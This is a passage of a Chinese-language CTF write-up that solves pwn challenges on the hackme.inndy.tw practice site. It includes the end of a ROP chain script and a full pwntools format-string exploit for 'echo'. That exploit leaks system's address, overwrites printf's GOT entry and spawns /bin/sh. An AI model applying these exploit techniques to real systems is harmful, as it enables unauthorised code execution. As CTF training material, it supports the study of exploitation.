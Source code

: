 ```python
p += pk('<I', 0x0807a66f) # inc eax ; ret
p += pk('<I', 0x0807a66f) # inc eax ; ret
p += pk('<I', 0x0807a66f) # inc eax ; ret
p += pk('<I', 0x0806c943) # int 0x80

payload = fit({0xc + 0x4: p})
a = remote("hackme.inndy.tw", 7704)
a.send(payload)
a.interactive()
```

之后 ```cat flag``` 即可。

## 55. toooomuch (Pwn)

这是一道异常轻松的题目。拖到IDA里分析之后可以得知，程序的流程是先输入一个passcode，如果正确的话则开始玩一个猜数字的游戏，猜中了则会打印出 flag。并且这个猜数字的范围只是 0~100，而且不限制次数，同时passcode还是明文保存的。因此只需要二分猜就可以了。

## 57. echo (Pwn)

这是一个格式化字符串的题目。

Wildfoot 大佬做了一张帮助理解 fmtstr 的图片：

<img src="https://i.imgur.com/iTuAZmo.jpg", width="1000px"/>

在这道题中，程序的流程就是循环多次，输入字符串，然后打印出该字符串。在调用 printf 的地方存在着格式化字符串的漏洞。

首先泄露出 system_got中的system函数的真实地址，再将printf\_got覆盖为system\_addr，之后通过 fgets 读入```/bin/sh```时，```printf("/bin/sh")``` 就已经相当于 ```system("/bin/sh")```了。

利用脚本如下：

```python
from pwn import *

io = remote("hackme.inndy.tw", 7711)

system_got = 0x804a018
printf_got = 0x804a010

# leak system_addr

payload = p32(system_got) + "%7$s"
io.sendline(payload)
system_addr = u32(io.recvline()[4:8])

# hijack system to printf_got
payload = fmtstr_payload(7, {printf_got: system_addr})
io.sendline(payload)

# system("/bin/sh")

io.sendline("/bin/sh")
io.interactive()
```
